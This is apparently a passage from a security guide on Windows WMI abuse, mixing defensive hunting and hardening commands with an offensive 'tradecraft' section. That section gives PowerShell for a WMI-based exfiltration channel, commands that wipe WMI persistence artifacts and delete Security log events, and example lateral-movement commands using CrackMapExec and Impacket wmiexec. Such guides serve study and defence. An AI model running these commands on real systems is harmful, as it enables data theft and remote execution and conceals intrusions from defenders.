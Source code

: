 **Suspicious WMI Namespace Modifications:**
```powershell
# Hunt for non-default event consumers
Get-WmiObject -Namespace root\Subscription -Class __EventConsumer | 
Where-Object {$_.__CLASS -notin ('ActiveScriptEventConsumer','LogFileEventConsumer')}
```
### Mitigation Controls
1. WMI Namespace Hardening:
```powershell
$SDDL = 'O:SYG:SYD:(A;;CCDCLCSWRP;;;BA)(A;;CCDCLCSWRP;;;SY)'
Set-WmiInstance -Namespace root -Class __SystemSecurity -Arguments @{SecurityDescriptor = $SDDL}
```
2. Protected Process Configuration:
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\wmiprvse.exe" /v AuditLevel /t REG_DWORD /d 00000008 /f
```
3. Network Segmentation Rules:
```bash
# Block WMI over DCOM (TCP 135)
iptables -A INPUT -p tcp --dport 135 -j DROP

# Restrict WinRM (WSMAN) to management VLAN
iptables -A INPUT -p tcp --dport 5985 -s 10.10.5.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 5985 -j DROP
```
## Operational Tradecraft
### Covert Channel Construction
```powershell
# Exfil data via WMI class properties
$ExfilClass = New-Object Management.ManagementClass("root\cimv2", [String]::Empty, $null)
$ExfilClass["__CLASS"] = "Win32_NetworkAdapterConfiguration"
$ExfilClass.Properties.Add("Data", [Management.CimType]::String, $false)
$ExfilClass.Put()

# Receiver endpoint
Get-WmiObject -Query "SELECT Data FROM Win32_NetworkAdapterConfiguration" | 
ForEach-Object { [System.Text.Encoding]::ASCII.GetString([Convert]::FromBase64String($_.Data)) }
```
### Anti-Forensic Measures
```powershell
# WMI artifact wiping
Get-WmiObject -Namespace root\Subscription -Class __EventFilter | Remove-WmiObject
Get-WmiObject -Namespace root\Subscription -Class __EventConsumer | Remove-WmiObject
Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding | Remove-WmiObject

# Log manipulation (requires SYSTEM)
Remove-WmiObject -Class Win32_NTLogEvent -Filter "Logfile='Security' AND EventCode=4688"
```
### Tools Overview
#### Offensive Tool Matrix
| Tool                 | Capabilities                          | Detection Surface                                                      |
| -------------------- | ------------------------------------- | ---------------------------------------------------------------------- |
| **WMImplant**        | Full C2 over WMI                      | AMSI/WMI-Activity logs                                                 |
| **Impacket WMIexec** | Pass-the-hash lateral movement        | 4624 logon events                                                      |
| **Cobalt Strike**    | Beacon over WMI subscriptions         | Sysmon Event ID 19-21                                                  |
| **CrackMapExec**     | WMI query execution, lateral movement | `cme smb 10.0.0.1 -u user -p pass -x 'wmic process call create "cmd"'` |
| **Impacket**         | WMI-based shells, credential dumping  | `python3 wmiexec.py DOMAIN/user:Pass@target "whoami"`                  |